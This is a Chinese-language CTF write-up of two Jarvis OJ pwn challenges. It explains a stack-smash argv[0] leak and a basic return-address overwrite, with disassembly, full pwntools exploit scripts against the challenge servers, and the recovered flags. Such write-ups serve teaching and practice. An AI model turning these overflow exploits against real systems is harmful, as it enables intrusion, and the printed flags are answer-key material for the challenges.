 # 7.20 smash&格式化字符串

> 划水了2天多，因为准备回南京，有点懈怠。所以慢腾腾的完成了朱师傅布置的Pwn任务，这次是一个栈溢出一个格式化字符串的题目

## smash

​	这个StackSmash在之前迷迷糊糊的接触过一次，但是不算真的了解原理，这次接着把基础代码看了看，大概了解了一下原理，毕竟厚积薄发呀。

​	进入正题

### 原理

当程序加了*Cannary*来保护时，栈溢出会使得程序异常终止并输出错误信息，而*StackSmash*就是利用这个来做到任意地址读取的。报错函数为*__stack_chk_fail*，代码如下：

```c
void __attribute__ ((noreturn)) __stack_chk_fail (void)
{
  __fortify_fail ("stack smashing detected");
}
void __attribute__ ((noreturn)) internal_function __fortify_fail (const char *msg)
{
  /* The loop is added only to keep gcc happy.  */
  while (1)
    __libc_message (2, "*** %s ***: %s terminated\n",
                    msg, __libc_argv[0] ?: "<unknown>");
}
```

这里我们会发现会指向*__libc_argv[0]*，这个也就是我们看到的程序名，又因为*argv*数组真实存在，所以可以通过栈溢出来覆盖它，从而造成读取漏洞。

### 题目

题目是*Javis Oj*上面的smash题目，表示我其实不看资料其实挺迷糊的，主要是利用了

> 在ELF内存映射时，bss段会被映射两次

所以我们可以使用另一处进行输出，可以使用gdb的find来进行查找。

主要是如何调试呢？本菜鸡也不知都……照着调调呗，但是好像结果不对……不管了上exp

```python
from pwn import *

flag_addr=0x600d20
another_addr=0x400d20
argv=0x7fffffffdc58
s=0x7fffffffda40
print argv-s
sh=remote('pwn.jarvisoj.com',9877)
#sh=process('./smashes.44838f6edd4408a53feb2e2bbfe5b229')
payload='a'*(argv-s)+p64(another_addr)
sh.sendline(payload)
sh.sendline('fxxx')
a=sh.recv()
print a 
sh.interactive()
#PCTF{57dErr_Smasher_good_work!}
```

### 参考

[[CTF wiki]https://ctf-wiki.github.io/ctf-wiki/pwn/linux/stackoverflow/fancy-rop-zh/#stack-smash](https://ctf-wiki.github.io/ctf-wiki/pwn/linux/stackoverflow/fancy-rop-zh/#stack-smash)

[[奈沙夜影的博客]https://blog.csdn.net/whklhhhh/article/details/78629292](https://blog.csdn.net/whklhhhh/article/details/78629292)

[[某大佬博客]https://blog.csdn.net/kevin66654/article/details/86773670](https://blog.csdn.net/kevin66654/article/details/86773670)

[[朱师傅的GitHub]https://github.com/ReTuRn0BVB09/zbl/blob/master/0710/Tell_Me_Something%26Smash.md](https://github.com/ReTuRn0BVB09/zbl/blob/master/0710/Tell_Me_Something%26Smash.md)

## Tell me Something

这一题没啥奇怪的东西，就是基础栈溢出，但是我们通过反汇编代码发现了不对劲的地方

```assembly
.text:00000000004004E0 main            proc near               ; DATA XREF: _start+1D↓o
.text:00000000004004E0 ; __unwind {
.text:00000000004004E0                 sub     rsp, 88h
.text:00000000004004E7                 mov     edx, 14h        ; n
.text:00000000004004EC                 mov     esi, offset aInputYourMessa ; "Input your message:\n"
.text:00000000004004F1                 mov     edi, 1          ; fd
.text:00000000004004F6                 call    _write
.text:00000000004004FB                 mov     rsi, rsp        ; buf
.text:00000000004004FE                 mov     edx, 100h       ; nbytes
.text:0000000000400503                 xor     edi, edi        ; fd
.text:0000000000400505                 call    _read
.text:000000000040050A                 mov     edx, 29h        ; n
.text:000000000040050F                 mov     esi, offset aIHaveReceivedY ; "I have received your message, Thank you"...
.text:0000000000400514                 mov     edi, 1          ; fd
.text:0000000000400519                 call    _write
.text:000000000040051E                 add     rsp, 88h        ; 莫名其喵的加了0x88上面减了0x88
.text:0000000000400525                 retn
.text:0000000000400525 ; } // starts at 4004E0
.text:0000000000400525 main            endp
```

所以栈发生了一定的偏移（所以我在gdb疯狂调试的时候一直发现不对劲），之后看反编译程序，

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  __int64 v4; // [rsp+0h] [rbp-88h]

  write(1, "Input your message:\n", 0x14uLL);
  read(0, &v4, 0x100uLL);
  return write(1, "I have received your message, Thank you!\n", 0x29uLL);
}
```

发现v4和rbp差0x88，这个莫非就是偏移量，之后我就参考了一下朱师傅的GitHub，发现还真的是，所以继续做。

之后我们看看能利用的地方，发现没有system函数，之后看到有几个奇怪的函数，其中有个good_game这个函数，点进去，搜嘎，

```c
int good_game()
{
  FILE *v0; // rbx
  int result; // eax
  char buf; // [rsp+Fh] [rbp-9h]

  v0 = fopen("flag.txt", "r");
  while ( 1 )
  {
    result = fgetc(v0);
    buf = result;
    if ( (_BYTE)result == -1 )
      break;
    write(1, &buf, 1uLL);
  }
  return result;
}
```

发现直接读flag，之后就直接跳转到这就行。上exp

```python
from pwn import *
sh=remote('pwn.jarvisoj.com',9876)
#sh=process('./guestbook.d3d5869bd6fb04dd35b29c67426c0f05')
payload='a'*0x88+p64(0x400620)
sh.sendline(payload)
a=sh.recv()
print a
sh.interactive()

#PCTF{This_is_J4st_Begin}
```

### 参考

[[朱师傅的GitHub]https://github.com/ReTuRn0BVB09/zbl/blob/master/0710/Tell_Me_Something%26Smash.md](https://github.com/ReTuRn0BVB09/zbl/blob/master/0710/Tell_Me_Something%26Smash.md)

